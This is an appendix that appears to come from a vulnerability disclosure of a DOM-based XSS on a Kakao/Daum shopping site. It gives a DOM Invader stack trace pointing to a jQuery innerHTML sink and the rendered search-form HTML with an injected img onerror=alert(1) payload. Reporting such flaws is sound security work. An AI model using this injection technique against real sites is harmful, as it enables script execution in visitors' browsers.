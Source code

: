 ## Appendix

### DOM XSS

DOM Invader stack trace:

```
at Object.imXJS (<anonymous>:2:137055)
at _0x142f96 (<anonymous>:2:491806)
at Object.efaRq (<anonymous>:2:360078)
at HTMLElement.set [as innerHTML] (<anonymous>:2:361502)
at k.fn.init.<anonymous> (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:219514)
at Z (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:200312)
at k.fn.init.html (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:219226)
at r.render (https://t1.daumcdn.net/shophow_cssjs/kakao/mo.merged.51ebe10e92260e3b75f5.js:1:371008)
at r.<anonymous> (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:166640)
at Qt (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:20538)
at r [as render] (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:20795)
at r.initialize (https://t1.daumcdn.net/shophow_cssjs/kakao/mo.merged.51ebe10e92260e3b75f5.js:1:370928)
at e.View (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:277705)
at r.constructor (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:166743)
at new r (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:287181)
at HTMLDocument.<anonymous> (https://t1.daumcdn.net/shophow_cssjs/kakao/mo.merged.51ebe10e92260e3b75f5.js:1:374535)
at c (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:197867)
at l (https://t1.daumcdn.net/shophow_cssjs/kakao/vendor.merged.51ebe10e92260e3b75f5.js:1:198169)
```

`innerHTML` value:

```html
<div class="wrap_shwsearch">
  <form class="frm_sch" action="#" role="search">
    <fieldset>
      <legend class="screen_out">검색어 입력폼</legend>
      <div class="box_search">
        <input type="search" class="inp_search btn_searchbox" id="headerQueryInput" value="" /><img src=x onerror=alert(1);>" placeholder="상품 검색" data-gg="{lk:mo_gnb_search,tp:A}">
        <button type="submit" class="btn_search btn_searchbox"><span class="ico_shwgnb">검색</span></button>
      </div>
    </fieldset>
  </form>
</div>
```
